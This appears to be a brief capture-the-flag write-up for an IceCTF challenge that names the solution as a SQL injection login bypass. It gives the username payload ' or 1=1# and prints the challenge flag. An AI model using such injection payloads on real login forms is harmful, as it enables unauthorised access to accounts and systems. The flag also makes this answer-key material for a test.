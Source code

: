 Simple SQL injection auth bypass.<br>
Enter this in username: ' or 1=1# <br>
Your flag is: IceCTF{why_would_you_even_do_anything_client_side}
